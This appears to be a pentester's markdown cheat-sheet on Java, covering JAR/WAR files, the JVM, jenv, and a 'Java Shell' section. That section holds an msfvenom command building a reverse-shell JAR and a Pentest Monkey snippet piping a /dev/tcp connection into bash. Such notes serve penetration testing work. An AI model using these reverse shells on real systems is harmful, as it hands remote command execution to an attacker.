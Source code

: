 # Java


File types:
```bash
# Java Archive format
$file.jar	
# Web Application Resource
# Or Web application ARchive
# Contains: JAR, Javaserver pages, Java Servblets, Java classes, XML files.
$file.war    
unzip $file.war    
```

#### JVM - Java Virtual Machines

[Wikipedia](https://en.wikipedia.org/wiki/Java_virtual_machine) A **Java virtual machine** (**JVM**) is a [virtual machine](https://en.wikipedia.org/wiki/Virtual_machine "Virtual machine") that enables a computer to run [Java](https://en.wikipedia.org/wiki/Java_(software_platform) "Java (software platform)") programs as well as programs written in [other languages](https://en.wikipedia.org/wiki/List_of_JVM_languages "List of JVM languages") that are also compiled to [Java bytecode](https://en.wikipedia.org/wiki/Java_bytecode "Java bytecode").

#### Virtual Environment

[Java Virtual Environment Jenv](https://medium.com/@bhagavathidhass/virtual-environments-for-python-ruby-and-java-87743478ae38):
```bash
jenv versions # shows all the jenv added versions  
jenv global oracle64-1.6.0.39 # Configure global version  
jenv local oracle64-1.6.0.39 # Configure local version (per directory)  
jenv shell oracle64-1.6.0.39 # Configure shell instance version
```

## Java Shell

```bash
msfvenom --platform java -p java/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f jar -o rev.jar
```

Pentest Monkey
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## References

[Java Virtual Environment Jenv](https://medium.com/@bhagavathidhass/virtual-environments-for-python-ruby-and-java-87743478ae38)
[Wikipedia - JVMs](https://en.wikipedia.org/wiki/Java_virtual_machine) 